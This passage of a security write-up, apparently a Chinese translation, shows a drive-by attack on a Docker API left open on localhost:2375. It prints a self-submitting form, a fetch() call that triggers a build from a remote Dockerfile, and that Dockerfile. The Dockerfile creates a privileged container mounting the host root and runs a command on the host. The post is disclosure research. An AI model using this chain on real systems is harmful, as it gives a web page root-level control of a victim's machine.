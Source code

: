 那么，我们能否找到一个端点，让我们仅使用 POST 原语就能完成所需的一切？  
### 镜像构建  
  
我尝试了多个不同的端点，最终发现了 /build  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCPJmbMEyzx7Hqy9j7oACZsEia4aGKjGT3Vy2VLqVMdJBvMmLLQPeIjiazCHrha0fF5f7WwWTmBntY2Q/640?wx_fmt=png&from=appmsg "")  
  
build endpoint  
  
有趣的是，它接受 URL 参数。这里最有趣的是 remote  
 参数，它允许你指定一个远程 Dockerfile  
 的 URL，并且它会安装并运行构建。我在我的网站上构建了一个 HTML 表单并进行测试以验证其是否有效。  
```
<form action="http://localhost:2375/build?remote=https://<snip>/Dockerfile">  <input id="btn" type="submit"></form><script>document.getElementById("btn").click();</script>
```  
  
访问上述页面会将我的远程 Dockerfile 构建成镜像。  
### 滥用镜像构建  
  
事实证明，镜像构建是在它们自己的短生命周期容器中进行的。在这里，我们可以定义安装内容并运行任意命令。这让我想到了一种类似"盗梦空间"的攻击方式。我们是否可以再次使用 docker 镜像构建过程与 API 交互，但这次使用 curl 并设置 application/json  
 内容类型。  
  
答案是否定的...因为构建过程无法访问主机上的 localhost  
。这时我注意到了另一个可选参数。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCPJmbMEyzx7Hqy9j7oACZsEY8d6IKTaxPqstO6VoMuIibcntbmu4gRceNmT2n4iaJ0lYqXOiccA9jsMA/640?wx_fmt=png&from=appmsg "")  
  
networkmode parameter  
  
啊哈！我们可以将 networkmode  
 设置为 host  
，这样通过引用 host.docker.internal  
 主机就可以与主机上的 localhost  
 进行交互。通过这种方式，我们可以创建一个 Dockerfile，它会创建一个挂载到主机的容器，运行命令来覆写主机文件，而这一切仅仅需要用户访问我们提交表单的网站即可完成。😱  
## 整合所有内容  
  
以下是我的 Dockerfile 漏洞利用代码。  
```
FROM alpine:latestRUN apk add --no-cache curl jqRUN curl -X POST -H "Content-Type: application/json" -d '{"image": "alpine","Tty":true,"OpenStdin":true,"Privileged":true,"AutoRemove":true,"HostConfig":{"NetworkMode":"host","Binds":["/:/mnt"]}}' http://host.docker.internal:2375/containers/create?name=shellRUN curl -X POST http://host.docker.internal:2375/containers/shell/startRUN exec_id=$(curl -s -X POST -H "Content-Type: application/json" -d '{"AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":["mkdir", "/mnt/tmp/pwned"]}' http://host.docker.internal:2375/containers/shell/exec | jq -r .Id) && curl -X POST "http://host.docker.internal:2375/exec/$exec_id/start" -H "Content-Type: application/json" -d '{"Detach": false, "Tty": false}'
```  
  
然后我们只需要一个网站来向 http://localhost:2375/build?remote=http://<snip>/Dockerfile&networkmode=host  
 发送 POST 请求即可执行。你可以使用上面的表单，或者直接运行以下 javascript 代码。  
```
fetch("http://127.0.0.1:2375/build?remote=https://<snip>/Dockerfile&networkmode=host", {method: "POST", mode: "no-cors"})
```  
  
我认为这里还有更多可以扩展的潜力。如果我们能够使用 GET 请求来构建镜像，那将成为一个有用的 SSRF -> RCE 利用工具链。  
  
我还想指出，在发布这篇文章之前，我做了一件负责任的事情 - 与 Docker Security 团队进行了确认。他们确实承认，如果你启用这个选项，那么确实会面临被攻击的风险。  
  
